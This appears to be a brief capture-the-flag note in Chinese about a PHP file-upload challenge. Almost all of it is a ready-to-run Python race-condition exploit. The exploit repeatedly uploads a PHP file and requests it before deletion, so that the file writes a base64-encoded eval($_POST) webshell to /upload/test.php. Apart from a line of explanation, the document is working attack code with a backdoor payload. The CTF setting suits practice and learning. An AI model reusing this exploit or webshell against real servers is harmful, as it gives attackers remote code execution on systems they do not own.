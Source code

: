 tags:: CTF/PHP/文件上传

- 在文件删除之前使用webshell
-
- 脚本：
- ```python
  import requests
  import time
  import threading
  
  url = "http://172.17.0.2"
  
  def get_file():
  
      for i in range(100000):
          try:
              r = requests.get(f"{url}/upload/a.php", params = {
                  "i": i
              })
              if r.status_code not in [404, 500]:
                  print("Yep", i)
                  print(r.status_code)
                  print(r.text)
                  break
          except Exception:
              time.sleep(0.1)
              continue
          if i % 50 == 1:
              print("GET ", i)
  
  def post_file():
      for i in range(100000):
          try:
              r = requests.post(
                  url, 
                  params = {
                      "i": i
                  }, 
                  files = {
                      "uploaded": (
                          "a.php", 
                          "<?php file_put_contents('test.php', base64_decode('PD9waHAgZXZhbCgkX1BPU1RbZGF0YV0pOz8+Cg=='));?>"
                      )
                  }
              )
          except Exception:
              time.sleep(0.1)
              continue
          if i % 50 == 1:
              print("POST", i)
  
  t1 = threading.Thread(target = post_file)
  
  t2 = threading.Thread(target = get_file)
  
  t1.daemon = True
  
  t1.start()
  t2.start()
  
  t2.join()
  
  ```
- 跑完脚本就可以得到`/upload/test.php`这个webshell